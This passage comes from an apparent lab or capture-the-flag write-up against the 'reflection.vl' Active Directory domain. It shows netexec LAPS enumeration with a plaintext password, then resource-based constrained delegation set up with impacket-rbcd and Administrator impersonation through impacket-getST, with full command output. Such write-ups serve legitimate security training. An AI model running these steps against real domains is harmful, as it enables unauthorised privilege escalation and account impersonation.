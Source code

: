 We check again if we can read LAPS, but this time it doesn't work.

```zsh
➜  ms01 netexec ldap dc01 -u Georgia.Price -p 'DBl+5MPkpJg5id' -M laps 
SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\Georgia.Price:DBl+5MPkpJg5id 
LAPS        10.10.219.181   389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.219.181   389    DC01             [-] No result found with attribute ms-MCS-AdmPwd or msLAPS-Password !
```

This time, we use Impacket's RBCD (Resource-Based Constrained Delegation) to edit the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.(Don't forget, we are using the machine account hash here.)

```zsh
➜  ms01 impacket-rbcd -action write -delegate-to "ws01$" -delegate-from "ms01$" -dc-ip 10.10.219.181 "reflection/Georgia.Price:<REDACTED>"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] MS01$ can now impersonate users on WS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MS01$        (S-1-5-21-3375389138-1770791787-1490854311-1104)
```

Then, using getST, we can impersonate the administrator.

```zsh
➜  ms01 impacket-getST -spn 'cifs/ws01.reflection.vl' -impersonate Administrator -dc-ip 10.10.219.181 'reflection/ms01$' -hashes ':<REDACTED>'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.reflection.vl@REFLECTION.VL.ccache
```
